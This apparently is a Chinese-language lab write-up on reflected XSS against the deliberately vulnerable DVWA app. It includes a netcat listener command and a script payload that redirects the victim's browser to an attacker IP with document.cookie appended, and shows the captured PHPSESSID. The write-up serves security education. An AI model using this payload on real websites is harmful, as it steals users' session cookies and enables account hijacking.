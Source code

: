 ## 一、跨站脚本技术XSS(Cross-Site Scripting)
- 之前的攻击目标是服务器，而XSS目标是浏览网站的普通人
- 通过XSS可以偷到登陆凭证(Cookies)、伪装成他们进行操作、导向假网站
## 二、攻击流程
### 2.1 漏洞侦测
- DVWA Security的安全级别设置为low
- XSS(Reflected)功能模块，提交经典的XSS测试向量:`<script>alert('XSS')</script>`，浏览器呈现一个内容为"XSS"的警告对话框，说明服务器未对输入进行充分过滤，而是直接嵌入HTML响应中。浏览器解析到`<script>`元素后，即刻执行内部的JavaScript代码。
### 2.2 攻击环境配置与Payload(有效载荷)构建
- Kali Linux终端，执行`nc -lvp 1234`启动该监听服务，`nc`执行`netcat`，`-l`启动监听模式，`-v`启动详细输出模式，`-p 1234`指定监听的端口号为1234
- `<script>document.location='http://192.168.174.129:1234/?cookie=' + document.cookie;</script>`
- Payload逻辑：强制浏览器重定向至一个新的URL，该URL指向攻击机的IP地址及监听端口1234，通过`document.cookie`获取的Cookie字符串，将作为查询参数(`?cookie=`)附加到URL的末尾
### 2.3 结果观测
- 浏览器端：页面发生一次快速重定向，并可能由于`netcat`服务无法提供有效的HTTP响应而显示连接错误
- 攻击机终端：切换至运行`netcat`的终端窗口，可以观测到一条新的HTTP GET请求，包含了被盗取的Cookie信息
- 结论：`PHPSESSID=...`部分的成功接收，标志着用户的会话Cooie已被成功窃取
      <img width="666" height="244" alt="image" src="https://github.com/user-attachments/assets/d90833f9-bd13-401d-a5fe-a816462eb56f" />  
## 三、总结
- `connect to [192.168.174.129] from ...`说明一个连接请求从受害者发送到了netcat
- `GET /?cookie=security=low;%20PHPSESSID=129f6e5a4c8cbd494411abc173bb2512 HTTP/1.1`，`GET /?cookie=...`是构造的Payload`document.location=...`产生的效果，`PHPSESSID=...`是用户的**会话凭证**，拥有此，攻击者可在不知道用户名和密码的情况下，冒充此用户登录网站
